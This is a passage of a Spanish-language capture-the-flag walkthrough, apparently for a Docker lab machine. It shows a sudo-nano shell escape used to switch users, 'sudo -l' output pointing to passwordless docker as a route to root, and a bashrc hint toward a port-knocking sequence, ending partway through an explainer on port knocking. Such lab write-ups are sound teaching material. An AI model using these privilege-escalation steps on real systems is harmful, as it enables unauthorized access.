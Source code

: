 Ahora explotamos el privilego para migrar de usuario:
```
sudo -u firsthacking /usr/bin/nano
ctrl + R
ctrl + X
reset; sh 1>&0 2>&0
```

###### Usuario `[ FirstHacking ]`:
Listando los permisos para este usuario:
```bash
sudo -l

User firsthacking may run the following commands on ed44bf952714:
    (ALL) NOPASSWD: /usr/bin/docker # Tenemos una via potencial de migrar a root
```

Listando los permisos de este usuario tenemos el siguiente:
```bash
-rw-rw-r-- 1 firsthacking firsthacking   40 Jul 15  2024 .docker
```

Listamos su contenido:
```bash
cat .docker 
que utiles son las funciones del bashrc
```

Ahora si listamos el contenido de configuracion de la **bashrc** tenemos lo siguiente:
```bash
function docker() {
    echo "�Fijate que hay algo esperando a que llames"
    echo -e "\n 12345 54321 24680 13579 \n"
    echo -e "De nada servira si no llamas antes"
}
```

Si ejecutamos la funcion **docker** nos retorna lo que previamente ya habiamos visto desde el archivo de configuracion:
```bash
docker

�Fijate que hay algo esperando a que llames

 12345 54321 24680 13579 

De nada servira si no llamas antes
```

###  Port Knocking en Docker: Seguridad mediante Secuencia de Puertos
(Técnica para ocultar servicios expuestos en contenedores)
####  **¿Qué es Port Knocking?**
Técnica de seguridad donde un servicio **solo acepta conexiones** después de recibir una secuencia específica de intentos de conexión ("knocks") en puertos cerrados.
**Ejemplo**:
1. Cliente toca puerto `1111` → luego `2222` → luego `3333`
2. El servidor abre el puerto `22` (SSH) solo para esa IP
###  **Implementación en Docker**
#### Caso de uso típico:
Proteger servicios sensibles (SSH, Paneles de Admin) en contenedores expuestos a internet.
### **Formas de Implementar**
